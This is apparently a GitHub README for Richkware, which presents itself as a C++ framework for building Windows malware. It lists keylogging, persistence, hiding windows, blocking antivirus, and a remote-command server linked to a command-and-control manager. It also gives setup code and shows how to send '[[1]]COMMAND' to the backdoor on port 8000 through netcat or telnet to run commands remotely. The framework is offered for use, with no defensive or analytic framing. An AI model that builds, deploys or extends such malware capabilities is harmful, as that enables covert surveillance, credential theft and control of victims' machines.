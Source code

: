 # Richkware

Framework for building Windows malware, written in C++.

## Description

It's a library of network and OS functions, that you can use to create malware.
The composition of these functions permits the application 
to assume behaviors referable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Service for management of hosts where is present a malware developed using **Richkware** framework.

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Client of **Richkware-Manager-Server**, that obtains list of all hosts and is able to send commands to do at each of them.

![](http://richk.altervista.org/RichkwareDiagram.svg)

## Functions

### Network

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](http://richk.altervista.org/RichkwareCryptographyDiagram.svg)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
if you deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you could use:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080");
                ...
                return 0;
            }
        
that get secure key from Richkware-Manager-Server and set it as encryption key.
DefaultPass is used as temporary encryption key to ensure a safety communication with RMS and if this app cannot reach the RMS, then it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Else, if you didn't deploy [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you could use: 
         
     Richkware richkware("Richk","richktest");
         
 it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage

### Remotely Command Execution

Call function **StartServer** in the main, it starts server on port 8000.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)

### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**.

	nc <serverName> 8000
	
after the answer from the server about establishment of connection, write:
    
    [[1]]COMMAND
    
where COMMAND is the command to execute to the pc where server is running.

### Connect using terminal in Windows

In Windows, you can use **telnet**.

	telnet <serverName> 8000

after the answer from the server about establishment of connection, write:
    
    [[1]]COMMAND
    
where COMMAND is the command to execute to the pc where server is running.

